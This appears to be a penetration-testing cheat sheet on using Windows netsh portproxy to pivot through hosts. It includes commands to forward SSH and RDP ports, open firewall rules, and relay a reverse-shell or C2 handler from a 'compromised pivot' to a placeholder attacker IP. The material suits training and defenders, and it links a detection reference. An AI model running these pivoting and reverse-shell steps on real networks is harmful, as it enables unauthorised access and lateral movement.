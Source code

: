 # Living off the Land

## 01 - Conditions

Both services of `IP Helper` and **IPv6 support** must be enabled. To ensure they're enabled here are the following commands:

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\services\iphlpsvc" /v Start /t REG_DWORD /d 2 /f

C:\> sc.exe [\\<IP>] config iphlpsvc start= auto

C:\> net.exe start "IP Helper"

C:\> sc.exe [\\<IP>] start iphlpsvc
```

## 02 - Usage

> [!NOTE] Elevated Privileges is Required
> `netsh interface portproxy` must be executed with administrative rights.

```
C:\> netsh.exe interface portproxy add <v4tov4 | v4tov6 | v6tov4 | v6tov6> listenport=<LPORT> listenaddress=<LHOST> connectport=<FPORT> connectaddress=<FHOST>
```

Display port forwarding rules.

```
C:\> netsh.exe interface portproxy show <all | v4tov4 | v4tov6 | v6tov4 | v6tov6>
```

Delete port forwarding rule.

```
C:\> netsh.exe interface portproxy delete v4tov4 listenaddress=<LHOST> listenport=<LPORT>
```

Flush port forwarding rules.

```
C:\> netsh.exe interface portproxy reset [ipv4 | ipv6]
```

## 03 - Scenarios

### 3.1 - Bind SSH Port

Grab the SSH port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=4242 listenaddress=<pivot_IP | 0.0.0.0> connectport=22 connectaddress=192.168.0.101
```

In command prompt

```
C:\> netstat.exe -anp TCP | find "4242"

C:\> tasklist.exe | findstr :4242
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 4242
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward SSH" protocol=tcp dir=in localip=<pivot_IP> localport=4242 action=allow
```

Remotely authenticate SSH server

```
$ ssh <username>@<pivot_IP> -p 4242
```

### 3.2 - Bind RDP Port

Grab the RDP port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<pivot_IP | 0.0.0.0> connectport=3389 connectaddress=<RDP_IP>
```

In command prompt

```
C:\> netstat.exe -na | findstr "8080"

C:\> tasklist.exe | findstr :8080
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8080
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward RDP" protocol=tcp dir=in localip=<pivot_IP> localport=8080 action=allow
```

Remotely authenticate RDP server

```
$ xfreerdp /v:<pivot_IP>:8080 /u:<username> /p:<password> /sec:<rdp | tls | nla>
```

### 3.3 - Remote Port Forwarding Reverse Shells

Port forward the reverse shell handler.

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8443 listenaddress=0.0.0.0 connectport=8443 connectaddress=<attacker_IP>
```

Check for 8443 listening port in command prompt.

```
C:\> netstat.exe -na | findstr "8443"

C:\> tasklist.exe | findstr :8443
```

Check for 8443 listening port in powershell.

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8443
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward Implant" protocol=tcp dir=in localip=<compromised_pivot_IP> localport=8443 action=allow
```

Then you can launch a reverse shell handler with any C2 frameworks. Just specify the compromised system's IP and PORT.

---
## References

- [Netsh Interface PortProxy](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-interface-portproxy)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [PayloadsAllTheThings Network Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

- [How to Redirect a Port Using Netsh Interface PortProxy Command in Windows](https://www.computertechblog.com/how-to-redirect-a-port-using-netsh-interface-portproxy-command-in-windows/)

- [Configure Port Forwarding on Windows Using Netsh](https://bobcares.com/blog/configure-port-forwarding-on-windows-using-netsh/)

- [Windows Port Forward](https://embracethered.com/blog/posts/2020/windows-port-forward/)

- [Shell is coming: Metasploit Chain of Proxies](https://www.shelliscoming.com/2013/08/metasploit-chain-of-proxies-with.html)

### Similar to Linux

- [[Rinetd]]

### Scenarios

- [Metasploit: Portproxy (tunneling meterpreter session inside another meterpreter session) + socat + chisel](https://pswalia2u.medium.com/metasploit-portproxy-tunneling-meterpreter-session-inside-another-meterpreter-session-9a99bcf959ac)

- [Metasploit: Portproxy (tunneling meterpreter session inside another meterpreter session) + socat + chisel (web archived)](https://web.archive.org/web/20221121115128/https://pswalia2u.medium.com/metasploit-portproxy-tunneling-meterpreter-session-inside-another-meterpreter-session-9a99bcf959ac)

- [CyberSec Wikimandine: Port Forwarding with Windows Netsh](https://amandinegh.gitbook.io/cyberadventure/internal/pivoting-tunneling-and-port-forwarding/port-forwarding-with-windows-netsh)

### Detections

- [DFIR Notes: PortProxy Detection](https://www.dfirnotes.net/portproxy_detection/)